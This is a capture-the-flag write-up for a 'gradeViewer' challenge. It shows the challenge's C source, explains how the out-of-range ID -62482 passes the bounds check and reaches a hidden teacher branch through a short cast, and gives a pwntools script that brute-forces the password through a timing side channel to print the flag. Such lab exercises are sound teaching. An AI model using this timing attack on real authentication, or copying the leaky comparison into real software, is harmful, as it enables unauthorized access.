



So we got a exe and the source code

`gradeViewer.c`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>

#define MAX_LEN 32
#define FLAG_FILE "./flag.txt"
#define FLAG_SIZE 256

const char *SECRET = "[REDACTED]";

void changeGrade() {
    char buf[FLAG_SIZE];
    memset(buf, 0, FLAG_SIZE);
    FILE *f = fopen(FLAG_FILE, "r");
    if (f == NULL) {
        printf("Missing flag file. \n");
    } else {
        fgets(buf, FLAG_SIZE, f);
        printf("\n");
        printf("Whose grade would you like to change?");
        printf("\n");
        write(STDOUT_FILENO, buf, strlen(buf));
        printf("\n");
    }
    exit(0);
}

void accessMemory() {
    struct timespec ts = {.tv_sec = 0, .tv_nsec = 5000000};
    nanosleep(&ts, NULL);
}

void authenticateTeacher() {
    char input[MAX_LEN];
    printf("\n[TEACHER VIEW] Enter your password [a-z, 0-9]:");
    scanf("%31s", input);

    for (int i = 0; i < strlen(SECRET); i++) {
        accessMemory();
        if (input[i] != SECRET[i]) break;
        accessMemory();
    }

    if (strcmp(input, SECRET) == 0) {
        printf("\nAccess granted.\n");
        changeGrade();
    } else {
        printf("\nInvalid password!\n");
    }
}

void showGrade(int id) {
    switch ((short)id) {
        case 1: printf("Phineas: A+\n"); break;
        case 2: printf("Ferb: A\n"); break;
        case 3: printf("Candace: B+\n"); break;
        case 4: printf("Buford: C\n"); break;
        case 5: printf("Baljeet: A+\n"); break;
        case 6: printf("Isabella: A\n"); break;
        case 7: printf("Perry: P\n"); break;
        case 8: printf("Doofenshmirtz: D\n"); break;
        case 9: printf("Jeremy: B\n"); break;
        case 10: printf("Vanessa: A-\n"); break;
        case 0x0BEE:
            printf("\nAccessing teacher view...\n");
            authenticateTeacher();
            break;
        default:
            printf("Unknown student ID.\n");
    }
}

int main() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    int id;
    printf("Welcome to the Tri-State Grade Viewer\n");
    printf("Enter your student ID: ");

    if (scanf("%d", &id) != 1 || id > 10) {
        printf("Invalid student ID.\n");
        int ch;
        while ((ch = getchar()) != '\n' && ch != EOF);
        exit(0);
    }

    showGrade(id);
    return 0;
}
```
So in here,
```C
if (scanf("%d", &id) != 1 || id > 10) {
    printf("Invalid student ID.\n");
    // ...
    exit(0);
}
```
The `main` function contains a check that only allows IDs up to 10:
```C
// in main()
if (scanf("%d", &id) != 1 || id > 10) {
    printf("Invalid student ID.\n");
    exit(0);
}
showGrade(id);
```
However, the `showGrade(id)` function has a hidden entry point for a "teacher view":
```C
// in showGrade()
switch ((short)id) {
    // ... student cases 1-10 ...
    case 0x0BEE:
        printf("\nAccessing teacher view...\n");
        authenticateTeacher();
        break;
```
This `case 0x0BEE:` is our target. It leads to the `authenticateTeacher()` function, which, if passed, calls `changeGrade()` to print the flag.

In this case, we can use `Integer Overflow`, we can calculate this value:
$$
X = 0x0BEE - 2^{16} \\\\
X = 3054 − 65536 \\\\
X = −62482
$$



then for the password, we can brute force it with this solver
```py
from pwn import *
import string
import time

BINARY_PATH = './gradeViewer'
CHARSET = string.ascii_lowercase + string.digits

password = ""

log.info("Starting exploit for gradeViewer...")

while True:
    best_char = None
    max_time = 0

    for char in CHARSET:
        p = process(BINARY_PATH, level='error')

        p.sendlineafter(b'Enter your student ID: ', b'-62482')
        p.recvuntil(b'Enter your password [a-z, 0-9]:')

        guess = password + char
        start_time = time.time()
        p.sendline(guess.encode())
        output = p.recvall(timeout=0.2)
        end_time = time.time()
        p.close()

        duration = end_time - start_time

        if b"Access granted" in output:
            password = guess
            log.success(f"Password found: {password}")
            try:
                flag = output.split(b'change?\n')[1].strip()
                log.success(f"FLAG: {flag.decode()}")
            except IndexError:
                log.warning("Failed to auto-parse flag. Printing raw output:")
                print(output.decode())
            exit(0)

        if duration > max_time:
            max_time = duration
            best_char = char

    if best_char:
        password += best_char
        log.info(f"Found character: '{best_char}'. Current password: '{password}'")
    else:
        log.error("Failed to find the next character.")
        log.info("Timing attacks can be unstable. Try running the script again.")
        exit(1)
```



then just input all that we got,


